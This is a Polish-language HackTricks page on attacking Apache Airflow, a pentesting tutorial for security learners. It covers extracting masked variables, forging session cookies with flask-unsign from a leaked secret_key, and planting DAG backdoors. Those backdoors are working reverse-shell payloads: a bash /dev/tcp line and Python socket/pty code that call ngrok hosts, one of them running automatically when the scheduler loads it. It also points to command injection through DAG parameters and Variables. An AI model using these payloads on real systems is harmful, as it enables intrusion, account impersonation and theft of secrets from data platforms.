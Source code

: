 # Bezpieczeństwo Apache Airflow

<details>

<summary><strong>Zacznij od zera i stań się ekspertem od hakowania AWS dzięki</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

[**Apache Airflow**](https://airflow.apache.org) służy jako platforma do **orkiestracji i harmonogramowania potoków danych lub prac**. Termin "orkiestracja" w kontekście potoków danych oznacza proces organizowania, koordynowania i zarządzania złożonymi potokami danych pochodzącymi z różnych źródeł. Głównym celem tych zorchestrowanych potoków danych jest dostarczanie przetworzonych i konsumowalnych zbiorów danych. Te zbiory danych są szeroko wykorzystywane przez szereg aplikacji, w tym między innymi narzędzia do inteligencji biznesowej, modele nauki danych i uczenia maszynowego, które są podstawą działania aplikacji big data.

W skrócie, Apache Airflow pozwoli Ci **harmonogramować wykonanie kodu, gdy coś** (zdarzenie, cron) **się dzieje**.

## Lokalne laboratorium

### Docker-Compose

Możesz użyć **pliku konfiguracyjnego docker-compose z** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) aby uruchomić kompletną środowisko dockerowe Apache Airflow. (Jeśli korzystasz z systemu MacOS, upewnij się, że przypisujesz co najmniej 6 GB pamięci RAM do maszyny wirtualnej docker).

### Minikube

Jednym prostym sposobem **uruchomienia Apache Airflow** jest uruchomienie go **z minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Konfiguracja Airflow

Airflow może przechowywać **informacje poufne** w swojej konfiguracji lub można znaleźć słabe konfiguracje:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC Airflow

Zanim zaczniesz atakować Airflow, powinieneś zrozumieć **jak działają uprawnienia**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataki

### Wyliczanie Konsoli Sieciowej

Jeśli masz **dostęp do konsoli sieciowej**, możesz mieć dostęp do niektórych lub wszystkich następujących informacji:

* **Zmienne** (Tutaj mogą być przechowywane niestandardowe informacje poufne)
* **Połączenia** (Tutaj mogą być przechowywane niestandardowe informacje poufne)
* Dostęp do nich pod adresem `http://<airflow>/connection/list/`
* [**Konfiguracja**](./#airflow-configuration) (Informacje poufne, takie jak **`secret_key`** i hasła, mogą być przechowywane tutaj)
* Lista **użytkowników i ról**
* **Kod każdego DAG** (który może zawierać interesujące informacje)

### Pobieranie Wartości Zmiennych

Zmienne mogą być przechowywane w Airflow, aby **DAGi** mogły **uzyskać dostęp** do ich wartości. Jest to podobne do tajemnic innych platform. Jeśli masz **wystarczające uprawnienia**, możesz uzyskać do nich dostęp w interfejsie graficznym pod adresem `http://<airflow>/variable/list/`.\
Domyślnie Airflow pokaże wartość zmiennej w interfejsie graficznym, jednak, zgodnie z [**tym**](https://marclamberti.com/blog/variables-with-apache-airflow/), można ustawić **listę zmiennych**, których **wartość** będzie wyświetlana jako **gwiazdki** w **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Jednak te **wartości** mogą być nadal **pobrane** za pomocą **CLI** (musisz mieć dostęp do bazy danych), wykonania **arbitralnego DAGa**, dostępu do **API** poprzez dostęp do punktu końcowego zmiennych (API musi być aktywowane), a nawet **samemu GUI!**\
Aby uzyskać dostęp do tych wartości z GUI, po prostu **wybierz zmienne**, do których chcesz uzyskać dostęp, i **kliknij Akcje -> Eksport**.\
Innym sposobem jest wykonanie **bruteforce** do **ukrytej wartości**, korzystając z **filtracji wyszukiwania**, aż ją znajdziesz:

![](<../../.gitbook/assets/image (152).png>)

### Eskalacja Uprawnień

Jeśli konfiguracja **`expose_config`** jest ustawiona na **True**, od roli **Użytkownik** i **wyżej** mogą **odczytać** **konfigurację w sieci**. W tej konfiguracji pojawia się **`secret_key`**, co oznacza, że każdy użytkownik z tą ważną wartością może **utworzyć własne podpisane ciasteczko, aby podszyć się pod dowolne inne konto użytkownika**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Tylnie drzwi DAG (RCE w Airflow worker)

Jeśli masz **dostęp do zapisu** w miejscu, gdzie **są zapisywane DAGi**, możesz **po prostu utworzyć** taki, który wyśle do Ciebie **odwrotną powłokę.**\
Zauważ, że ta odwrotna powłoka zostanie wykonana wewnątrz kontenera **airflow worker**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Tylnie drzwi DAG (RCE w harmonogramie Airflow)

Jeśli ustawisz coś do **wykonania w głównym katalogu kodu**, w chwili pisania tego tekstu, zostanie to **wykonane przez harmonogram** po kilku sekundach od umieszczenia go wewnątrz folderu DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Tworzenie DAG

Jeśli uda ci się **skompromitować maszynę w klastrze DAG**, możesz tworzyć nowe **skrypty DAG** w folderze `dags/`, a następnie zostaną one **skopiowane na pozostałe maszyny** w klastrze DAG.

### Wstrzykiwanie Kodu DAG

Podczas wykonywania DAG z interfejsu graficznego, możesz **przekazywać do niego argumenty**.\
Dlatego, jeśli DAG nie jest poprawnie napisany, może być **podatny na Wstrzykiwanie Poleceń.**\
Tak właśnie stało się w przypadku tego CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Wszystko, co musisz wiedzieć, aby **rozpocząć poszukiwania wstrzykiwania poleceń w DAG**, to to, że **parametry** są **odczytywane** za pomocą kodu **`dag_run.conf.get("nazwa_parametru")`**.

Co więcej, ta sama podatność może wystąpić w przypadku **zmiennych** (zauważ, że posiadając wystarczające uprawnienia, możesz **kontrolować wartość zmiennych** w interfejsie graficznym). Zmienne są **odczytywane za pomocą**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Jeśli są używane na przykład w poleceniu bash, można przeprowadzić wstrzyknięcie poleceń.

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>
